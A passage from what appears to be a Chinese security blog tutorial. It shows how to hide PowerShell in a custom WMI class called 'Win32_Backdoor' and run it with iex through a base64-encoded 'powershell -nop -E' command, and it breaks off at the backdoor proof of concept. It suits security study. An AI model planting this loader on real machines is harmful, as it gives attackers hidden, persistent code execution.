 `([WmiClass] 'Win32_Backdoor').Properties['Code'].Value`


以上操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/3-1.png)

执行payload：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec
```

**注：**

通过Invoke-Expression执行命令也可以，使用iex是为了缩短长度

结合waitfor的参数格式，这里选择将代码编码为base64

对执行payload的代码进行base64编码，以下代码保存在code.txt：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec
```

对其进行base64编码，代码如下：

```
$code = Get-Content -Path code.txt
$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
$encoded = [System.Convert]::ToBase64String($bytes)
$encoded 
```

获得base64加密代码如下：

`JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==`

以上操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/3-2.png)


测试base64加密代码：

`powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==`

成功执行代码，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/3-3.png)


根据以上思路，POC如下：

后门代码：

（管理员权限）
